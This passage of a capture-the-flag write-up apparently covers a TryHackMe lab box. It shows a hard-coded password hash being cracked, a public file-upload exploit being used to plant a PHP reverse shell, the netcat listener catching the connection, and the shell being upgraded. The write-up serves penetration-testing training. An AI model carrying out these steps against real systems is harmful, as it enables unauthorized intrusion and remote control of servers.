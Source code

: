 We see it has hard coded username of `manager` and hash password `42f749ade7f9e195bf475f37a44cafcb` If we go to [crackstation.net](http://crackstation.net) we find its password which is `Password123` 

![crackstation](crackstation.png)_crackstation.net_

So I decided to tried to exploit the file upload vulnerability which we know it is vulnerable to it. I found this python exploit from exploit-db [https://www.exploit-db.com/exploits/40716](https://www.exploit-db.com/exploits/40716) . The challenge I faced was alot of this php exploits was not working till I found this from github [`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) so change where necessary i.e `IP` and `Port` 

## Initial foothold

We shall run the python script and fill in the necessary details… 

```bash
Enter The Target URL(Example : localhost.com) : 10.10.205.80/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : revshelll.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.205.80/content/attachment/revshelll.php5
```

Then we shall open a listening port waiting for connection. When we visit the `Url` given  by the script we would have reverse shell connection.

```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.112.1] from (UNKNOWN) [10.10.205.80] 51296
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 16:07:43 up 42 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

So let us upgrade our shell by typing `python -c "import pty;pty.spawn('/bin/bash')"` then `export TERM=xterm` then press `CTRL + z` to background the shell and finally on your machine `stty raw -echo; fg` 

```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@THM-Chal:/$ export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -lvnp 9001

stty raw -echo; fg
```
